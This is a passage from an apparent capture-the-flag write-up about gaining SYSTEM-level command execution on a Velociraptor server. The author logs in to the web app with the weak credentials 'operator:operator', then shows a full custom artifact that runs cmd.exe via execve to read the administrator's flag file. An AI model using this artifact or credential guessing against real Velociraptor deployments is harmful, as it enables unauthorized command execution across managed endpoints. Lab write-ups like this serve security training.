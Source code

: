 ```powershell
PS C:\datastore\acl> ls

Directory: C:\datastore\acl

Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----          9/6/2024   8:34 AM             27 admin.json.db                                                        
-a----          9/6/2024   8:47 AM             97 operator.json.db                                                     
-a----         9/19/2024   9:07 AM             40 VelociraptorServer.json.db
```
We can see a user operator, using ```operator:operator``` on the webapp we can authenticate :

Here i don't necessarily google anything, i just tried several things trying to understand how work the webapp and i found that if we create a ```Artifact``` then we create a ```Hunter``` and as ```Select Artifact``` we use our custom artifact and put ```Start Hunt Immediately``` as YES

using this malicious artifact if you only want to read the flag :

```console
name: Windows.System.CmdShell222
description: |
  This artifact allows running arbitrary commands through the system
  shell cmd.exe.

  Since Velociraptor typically runs as system, the commands will also
  run as System.

  This is a very powerful artifact since it allows for arbitrary
  command execution on the endpoints. Therefore this artifact requires
  elevated permissions (specifically the `EXECVE`
  permission). Typically it is only available with the `administrator`
  role.

  Note there are some limitations with passing commands to the cmd.exe
  shell, such as when specifying quoted paths or command-line
  arguments with special characters. Using Windows.System.PowerShell
  artifact is likely a better option in these cases.


precondition:
  SELECT OS From info() where OS = 'windows'

parameters:
  - name: Command
    default: "more c:\\users\\administrator\\desktop\\root.txt"

sources:
  - query: |
      SELECT * FROM execve(argv=["cmd.exe", "/c", Command])
```
